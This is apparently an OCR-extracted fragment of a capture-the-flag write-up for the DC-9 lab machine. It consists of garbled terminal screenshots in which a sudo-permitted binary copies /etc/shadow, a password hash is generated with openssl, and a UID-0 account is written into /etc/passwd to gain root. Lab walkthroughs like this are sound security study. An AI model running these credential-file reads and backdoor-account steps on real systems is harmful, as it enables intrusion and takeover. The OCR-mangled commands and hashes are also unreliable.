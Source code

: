 <img src="DC-9/media/image26.png" style="width:6.29167in;height:1.54167in" alt="sudo /opt/devstuff/dist/test/test /etc/shadow /tmp/pass cat /tmp/pass root : $6$1 Fbb8QQt c Fwj1PZraeiOCkMqsJ4/4pnd10aio. f2føLsmy2G91 EyxJrEZvZYjmXRf JK/ : 18259 : : 99999 : 7 : : : bin games backu " />

<img src="DC-9/media/image27.png" style="width:4.83333in;height:0.84167in" alt="kali S kali ) - C—/Desktop/ctf/vu1nhub/dc9] opens-sl passwd pass BdLRyØXAnuuCE " />

<img src="DC-9/media/image28.png" style="width:6.325in;height:2.18333in" alt="nano /tmp/usr fredfidc-9 sudo /opt/devstuff/dist/test/test /tmp/usr /etc/passwd su newroot Password : id gid=ø(root) groups=ø(root) rootOdc-9:/home/fredfg whoami root cat /tmp/usr • 8dLRyØXAnuuCE : 0: : new_root : /root : /bin/bash newroot . 1 " />
